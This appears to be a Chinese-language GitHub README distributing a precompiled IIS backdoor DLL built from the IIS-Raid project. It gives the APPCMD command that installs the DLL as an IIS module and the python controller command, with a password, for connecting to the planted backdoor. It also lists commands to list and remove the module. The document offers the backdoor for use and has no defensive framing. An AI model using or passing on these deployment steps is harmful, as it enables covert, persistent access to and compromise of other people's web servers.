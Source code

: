 # README


已经编译好了的dll

####  

源码：https://github.com/0x09AL/IIS-Raid

  



####  

直接下载 IIS-backdoor.dll  

Windows server2012 IIS 8 测试

  


## 使用

### 添加模块

PS C:\Users\Administrator> C:\Windows\system32\inetsrv\APPCMD.EXE install module /name:Module  /image:"c:\IIS-Backdoor.dll" /add:true

### 运行python脚本连接DLL后门

python3 iis_controller.py --url target --password SIMPLEPASS

## 另外一些模块有关的命令

### 看一下已经安装的模块

PS C:\Users\Administrator> C:\Windows\system32\inetsrv\APPCMD.EXE list modules

### 删除已经安装的模块

PS C:\Users\Administrator> C:\Windows\system32\inetsrv\APPCMD.EXE uninstall modules Module
